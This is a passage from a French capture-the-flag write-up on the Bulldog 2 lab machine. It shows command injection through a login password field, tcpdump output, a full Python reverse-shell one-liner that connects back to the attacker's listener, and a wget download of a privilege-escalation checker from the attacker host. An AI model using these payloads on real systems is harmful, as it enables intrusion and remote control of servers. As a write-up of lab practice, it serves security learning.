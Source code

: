 ![Affichage de l'image admin_dashboard.png](images/admin_dashboard.png)

Le premier test est concluant avec ```username=test``` && ```password=test|ping -c2 192.168.56.102``` car notre machine reçoit bien les trames ICMP _echo request_ et renvoie des _echo reply_.

```console
root@blinils:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:16:16.123293 IP 192.168.56.101 > blinils: ICMP echo request, id 3009, seq 1, length 64
16:16:16.123315 IP blinils > 192.168.56.101: ICMP echo reply, id 3009, seq 1, length 64
16:16:17.125145 IP 192.168.56.101 > blinils: ICMP echo request, id 3009, seq 2, length 64
16:16:17.125170 IP blinils > 192.168.56.101: ICMP echo reply, id 3009, seq 2, length 64
```

Un reverse shell avec Python a particulièrement bien fonctionné par la suite. ```nc -nlvp 12345``` sur notre machine, ```test|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'``` dans le champ _password_ et nous obtenons notre shell !

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 58496
bash: cannot set terminal process group (835): Inappropriate ioctl for device
bash: no job control in this shell
node@bulldog2:/var/www/node/Bulldog-2-The-Reckoning$ 
```

## Bulldog ou Cerbère ? Le douzième travail d'Hercule

Le script [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker) développé par Mike Czumak (@SecuritySift) va scanner un certain nombre d'éléments sur le serveur : configuration de la machine, version du noyau Linux, listing des utilisateurs et de leurs privilèges, fichiers aux droits trop permissifs... et renvoie à la fin du scan une liste d'exploits censés permettre une élévation de privilèges.

```console
node@bulldog2:/tmp$ wget -q http://192.168.56.102:1234/linuxprivchecker.py 
wget -q http://192.168.56.102:1234/linuxprivchecker.py

node@bulldog2:/tmp$ python linuxprivchecker.py
python linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================

[*] GETTING BASIC SYSTEM INFO...

[+] Kernel
    Linux version 4.15.0-23-generic (buildd@lgw01-amd64-055)
```